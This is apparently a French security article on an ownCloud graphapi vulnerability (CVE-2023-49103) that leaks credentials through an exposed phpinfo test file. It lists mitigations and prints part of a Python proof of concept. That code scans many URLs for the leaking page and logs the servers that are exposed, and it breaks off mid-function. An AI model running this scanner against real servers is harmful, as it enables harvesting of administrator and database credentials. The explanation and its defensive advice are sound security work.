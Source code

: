 Quelques explications pour rapidement comprendre la vulnérabilité :

- L'application "graphapi" s'appuie sur une bibliothèque tierce vulnérable (graphapi 0.2.0 – 0.3.0).
- Cette bibliothèque divulgue les détails de configuration de l'environnement PHP (phpinfo) 🤣
- On y retrouve des données sensibles telles que le mot de passe de l'administrateur d'ownCloud, le serveur de messagerie, etc.

### A retenir

- Désactiver l'application graphapi n'élimine pas la vulnérabilité (ça serait trop simple sinon 😂)
- Affecte aussi les environnements non conteneurisés.
- Les conteneurs Docker datant d'avant février 2023 ne sont pas vulnérables.

### Les protections

Comment se protéger de cette vulnérabilité ? Il existe plusieurs méthodes : 

1. Supprimer le fichier `owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php`.
2. Désactiver la fonction `phpinfo` si possible.
3. Modifier les secrets suivants
   - Mot de passe administrateur ownCloud
   - Identifiants du serveur de messagerie
   - Identifiants de la base de données
   - Clé d'accès au magasin d'objets/S3

### PoC

Un PoC est disponible pour détecter la présence du fichier GetPhpInfo.php : https://github.com/creacitysec/CVE-2023-49103/blob/main/exploit.py

```py
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor
from colorama import Fore, Style
import argparse
import queue
from alive_progress import alive_bar

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def check_phpinfo(url):
    try:
        response = requests.get(url, verify=False)  # Bypass SSL verification
        if response.status_code == 200 and 'OWNCLOUD_ADMIN_' in response.text:
            return True
    except requests.RequestException:
        pass
    return False

def process_urls(url_queue, output_file, update_bar):
    with open(output_file, 'a') as out:
        while True:
            url = url_queue.get()
            if url is None:
                url_queue.task_done()
                break  # Sentinel value to indicate completion
            try:
                if check_phpinfo(url):
                    print(Fore.GREEN + "Valid: " + url + Style.RESET_ALL)
                    out.write(url + '\n')
                else:
                    print(Fore.RED + "Invalid: " + url + Style.RESET_ALL)
            except Exception as e:
```
